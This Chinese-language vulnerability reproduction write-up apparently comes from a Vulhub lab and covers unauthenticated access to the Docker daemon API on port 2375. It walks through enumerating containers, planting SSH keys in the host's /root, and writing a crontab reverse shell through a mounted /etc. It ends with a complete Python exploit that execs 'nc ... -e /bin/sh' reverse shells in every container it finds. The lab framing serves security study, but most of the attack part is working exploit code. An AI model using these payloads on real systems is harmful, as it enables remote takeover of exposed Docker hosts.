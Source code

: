 # Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

### 执行命令

列出所有镜像：

```
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](images/202202221825647.png)

## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```
